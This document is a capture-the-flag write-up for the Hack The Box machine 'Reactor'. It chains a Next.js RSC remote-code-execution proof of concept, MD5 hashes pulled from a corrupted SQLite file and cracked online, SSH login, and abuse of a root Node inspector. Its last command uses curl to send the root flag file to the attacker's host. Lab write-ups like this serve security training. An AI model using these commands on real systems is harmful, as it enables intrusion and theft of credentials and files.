

Nmap scan:

```
$ sudo nmap -Pn -sV -sC -p- -A 10.129.4.110 -oN reactor.nmap
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-27 23:16 -0400
Nmap scan report for 10.129.4.110
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Thu, 28 May 2026 03:23:26 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Thu, 28 May 2026 03:23:27 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
```

Web at port 3000 runs vulnerable Nextjs version (CVE-2025-66478). Clone this automate [PoC](https://github.com/hackersatyamrastogi/react2shell-ultimate/tree/main):

```sh
$ git clone https://github.com/hackersatyamrastogi/react2shell-ultimate/tree/main
$ cd react2shell-ultimate
$ python -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements
$ python react2shell-ultimate -u http://10.129.4.110:3000 --god --shell 
╔════════════════════════════════════════════════════════════════════════╗                                                                                  
║     ____                 _   ___  ____  _          _ _                 ║                                                                                  
║    |  _ \ ___  __ _  ___| |_|__ \/ ___|| |__   ___| | |                ║                                                                                  
║    | |_) / _ \/ _` |/ __| __| / /\___ \| '_ \ / _ \ | |                ║                                                                                  
║    |  _ <  __/ (_| | (__| |_ / /_ ___) | | | |  __/ | |                ║                                                                                  
║    |_| \_\___|\__,_|\___|\__|____|____/|_| |_|\___|_|_|                ║                                                                                  
║                                                                        ║                                                                                  
║            React2Shell Ultimate CVE-2025-66478 Scanner v2.0.0         ║                                                                                   
║          Next.js RSC Remote Code Execution Vulnerability               ║                                                                                  
╠════════════════════════════════════════════════════════════════════════╣                                                                                  
║  Author: Satyam Rastogi (@hackersatyamrastogi)                        ║                                                                                   
║  https://github.com/hackersatyamrastogi                              ║                                                                                    
╠════════════════════════════════════════════════════════════════════════╣                                                                                  
║  ███  GOD MODE ACTIVE - AUTHORIZED RED TEAM USE ONLY  ███             ║                                                                                   
╠════════════════════════════════════════════════════════════════════════╣                                                                                  
║  ⚠️  WARNING: This mode enables full command execution on targets.     ║                                                                                   
║  ⚠️  Only use on systems you have EXPLICIT WRITTEN AUTHORIZATION.     ║                                                                                    
║  ⚠️  Unauthorized access is a federal crime (CFAA, CMA, etc.)         ║                                                                                    
╚════════════════════════════════════════════════════════════════════════╝                                                                                  
                                                                                                                                                            


╔════════════════════════════════════════════════════════════════════════╗                                                                                  
║                    INTERACTIVE SHELL - GOD MODE                        ║                                                                                  
╠════════════════════════════════════════════════════════════════════════╣                                                                                  
║  Target: http://10.129.4.110:3000                                      ║                                                                                  
╠════════════════════════════════════════════════════════════════════════╣                                                                                  
║  Commands:                                                             ║                                                                                  
║    • Type any shell command to execute (ls, whoami, id, cat, etc.)     ║                                                                                  
║    • 'read <file>' - Read file contents (e.g., read /etc/passwd)       ║                                                                                  
║    • 'download <remote> <local>' - Download file to local              ║                                                                                  
║    • 'help' - Show this help                                           ║                                                                                  
║    • 'exit' or 'quit' - Exit interactive shell                         ║                                                                                  
╚════════════════════════════════════════════════════════════════════════╝                                                                                  
                                                                                                                                                            
[*] Testing target exploitability...
[✓] Target is exploitable! User: uid=999(node) gid=988(node) groups=988(node)

react2shell:10.129.4.110:3000$
```

Found the `reactor.db` file under `/opt/reactor-app`. Download it locally to examine:

```sh
react2shell:10.129.4.110:3000$ download reactor.db /home/kali/htb/season/11/easy-reactor/reactor.db
```

Try to use `sqlite3` to read it, but this file seems to be corrupted:

```sh
$ sqlite3 reactor.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
Error: database disk image is malformed
```

Try to fetch readable strings from this file:

```sh
$ strings reactor.db        
SQLite format 3
Mtablesensor_logssensor_logs
CREATE TABLE sensor_logs (
    id INTEGER PRIMARY KEY,
    timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
    sensor_id TEXT,
    reading REAL,
    status TEXT
9tableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
5engineer39d97110eafe2a9a68639812cd271e8eoperatorengineer@reactor.htbI
M'/admina203b22191d744a4e70ada5c101b17b8administratoradmin@reactor.htb
2025-12-28 14:32:01COOLANT_FLOW@2ffffffCAUTION3
2025-12-28 14:32:01PRESSURE_01@cffffffNOMINAL4
2025-12-28 14:32:01CORE_TEMP_01@tH
NOMINAL
```

From this we found 2 hashes for 2 user accounts:
|Username|Password Hash|Role|Email|
|-|-|-|-|
|admin|a203b22191d744a4e70ada5c101b17b8|administrator|admin@reactor.htb|
|engineer|39d97110eafe2a9a68639812cd271e8e|engineer|engineer@reactor.htb|

Feed these to hashes to https://crackstation.net. Successfully recovered engineer's password: `reactor1`


SSH to the target machine with this credential (`engineer`:`reactor1`) and read the `user.txt` for the user flag:

```sh
$ ssh engineer@10.129.4.110
The authenticity of host '10.129.4.110 (10.129.4.110)' can't be established.
ED25519 key fingerprint is: SHA256:9v9mCPC4gn2EN/IbKKwhV8KZoNVTsVPorFhlTkNByPM
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.4.110' (ED25519) to the list of known hosts.
engineer@10.129.4.110's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Thu May 28 04:43:07 2026 from 10.10.16.102
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$ cat user.txt
7838d2323dff02b9f0f0711ed2df7ede
```

> User flag: 7838d2323dff02b9f0f0711ed2df7ede

Run `linpeas.sh`, identify `node inspect` is running as root:

```
root        1411  0.0  1.2 1066864 47636 ?       Ssl  03:13   0:02 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

Leverage [Node inspector/CEF debug abuse](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse.html) issue to read the `/root/root.txt` by connecting to the debugger/inspector and execute the command as node (which is running as root):

```sh
$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug> exec("process.mainModule.require('child_process').exec('curl http://10.10.16.102:8000?x=`cat /root/root.txt`')")
```